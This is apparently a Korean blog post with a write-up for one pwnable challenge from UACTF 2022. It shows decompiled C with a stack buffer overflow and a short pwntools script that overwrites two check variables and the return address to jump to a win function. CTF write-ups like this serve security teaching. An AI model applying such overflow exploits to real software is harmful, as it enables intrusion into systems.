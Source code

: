 ```yaml
---
layout: post
title: UACTF 2022 write-up
date: 2022-08-06 09:00:00 +0900
categories: [Security, CTF]
tags: [CTF, linux]
media_subpath: /assets/img/
---
```


![rank](0806-uactf-writeup/01-rank.png)
*리버싱이랑 포렌식, 그리고 미스크에 진심이었던 CTF였다고 생각한다.*

내가 푼 거에 대해서만 라이트업을 써 보려고 한다.

## **Pwnable**
### **something something win**

- Arch : amd64-64-little
- RELRO : <span style="color: #ffd33d">Partial RELRO</span>
- Stack : <span style="color: red">No Canary found</span>
- NX : <span style="color: #008000">NX enabled</span>
- PIE : <span style="color: red">No PIE (0x400000)</span>

```c
void __cdecl sussy()
{
  char buffer[16]; // [rsp+0h] [rbp-20h] BYREF
  uint64_t check2; // [rsp+10h] [rbp-10h]
  uint64_t check1; // [rsp+18h] [rbp-8h]

  check1 = 0LL;
  check2 = 0LL;
  *(_QWORD *)buffer = 0LL;
  *(_QWORD *)&buffer[8] = 0LL;
  puts("Yeah, I've made it impossible to hack, you know me");
  read(0, buffer, 0x30uLL);
  if ( check1 != 0x539 )
    exit(-1);
  if ( check2 != 1337 )
    exit(-1);
  puts("Hmm, did you do it?");
}
```
buffer에서 BOF가 발생하고, 이를 바탕으로, check1과 check2의 값을 적절히 덮어써서 조건문을 우회한 뒤 RIP를 조작하는 문제이다. 플래그를 읽고 출력하는 `win` 함수를 주기 때문에, 이를 이용하자.

```python
from pwn import *
p = process('./something-something-win')
win = 0x401216
payload = b'A'*0x10 + p64(1337) * 3 + p64(win)
p.sendafter(b"me\n", payload)
p.interactive()
```
